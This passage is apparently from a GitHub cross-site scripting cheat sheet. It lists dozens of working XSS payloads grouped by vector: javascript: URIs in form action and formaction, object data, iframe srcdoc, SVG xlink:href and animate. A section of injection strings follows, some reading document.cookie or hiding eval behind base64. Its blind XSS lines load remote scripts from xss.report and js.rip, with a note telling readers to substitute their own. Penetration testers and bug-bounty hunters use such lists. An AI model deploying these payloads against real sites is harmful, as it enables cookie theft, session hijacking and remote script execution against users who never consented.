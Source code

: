 ```html
<math><brute href=javascript:alert(1)>click  
----------------------------------------  
# **Action**  
<form action=javascript:alert(1)><input type=submit>  
<isindex action=javascript:alert(1) type=submit value=click>  
-----------------------  
# **formaction**
**<form><button formaction=javascript:alert(1)>click  
<form><input formaction=javascript:alert(1) type=submit value=click>  
<form><input formaction=javascript:alert(1) type=image value=click>  
<form><input formaction=javascript:alert(1) type=image src=http://brutelogic.com.br/webgun/img/youtube1.jpg>  
<isindex formaction=javascript:alert(1) type=submit value=click>  
---------------------------  
# **data**
**<object data=javascript:alert(1)>  
---------------------------------------------  
# **srcdoc**
<iframe srcdoc=%26lt;svg/o%26%23x6Eload%26equals;alert%26lpar;1)%26gt;>  
----------------------------------------------------  
# **xlink:href**
<svg><script xlink:href=data:,alert(1)></script>  
<svg><script xlink:href=data:,alert(1) />
<math><brute xlink:href=javascript:alert(1)>click  
-------------------------------------------------  
# **from**
<svg><a xmlns:xlink=http://www.w3.org/1999/xlink xlink:href=?><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=%26>
-------------------------------------------------
```

### 4) Inject JS code
- h0tak88r XSS
	```html
	 "'-->aaaaa<h1 onclick=alert(1)>h0tak88r
	"'--><h1 onmouseover="alert(88)" style="color: red;">h0tak88r</h1> 
	"'--><input/onauxclick="[1].map(prompt)">
	'"()&%<zzz><ScRiPt >alert('88')</ScRiPt>&
	<img src=x onerror=eval(atob('YWxlcnQoJ0kgb25seSB3cml0ZSBsYW1lIFBvQ3MnKQ==')) />
	'"--><Body onbeforescriptexecute="[1].map(confirm)">
	''"--><img src=x onODYSsyi=1 onerror=alert(document.cookie)>
	'`><\x00img src=xxx:x onerror=javascript:alert(1)> 
	"><button popovertarget=x>Click me</button> <input type="hidden" value="y" popover id=x onbeforetoggle=alert(document.cookie)>
	script><svg/onload=prompt`{document.cookie}`>
	```
- Blind XSS (Note: Change it to Yours)
	```html
	"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
	'"><script src=//xss.report/s/M8SZT8></script>
    "><script src="https://js.rip/l5j9hbki0b"></script>
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL2w1ajloYmtpMGIiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
	```
